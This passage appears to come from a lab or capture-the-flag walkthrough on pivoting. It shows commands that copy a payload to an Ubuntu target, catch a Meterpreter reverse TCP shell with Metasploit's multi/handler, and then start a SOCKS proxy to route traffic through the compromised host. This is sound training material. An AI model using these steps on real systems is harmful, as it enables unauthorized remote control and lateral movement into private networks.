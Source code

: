 Copy file over to ubuntu target
```go
scp backupjob ubuntu@10.129.90.142:/tmp
```

Start metasploit on attacker host. Set localhost to `0.0.0.0` 
```go
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

Executing the payload on the ubuntu target will grant us a meterpreter shell
```go
./tmp/backupjob
```

In [[#^answer1|question 1]] I obtained the two IP addresses after executing a ping sweep. In the same window, `bg` the active shell and continue with the below

## Use Metasploit for post-exploitation routing via the `socks_proxy` module

### Configuring MSF's SOCKS Proxy
```go
use auxiliary/server/socks_proxy
```

set srvport
```go
set SRVPORT 9050
```

set srvhost
```go
set SRVHOST 0.0.0.0
```

set version
```go
set version 4a
```

run
```go
run
```

Verify proxy server is running
```go
jobs
```

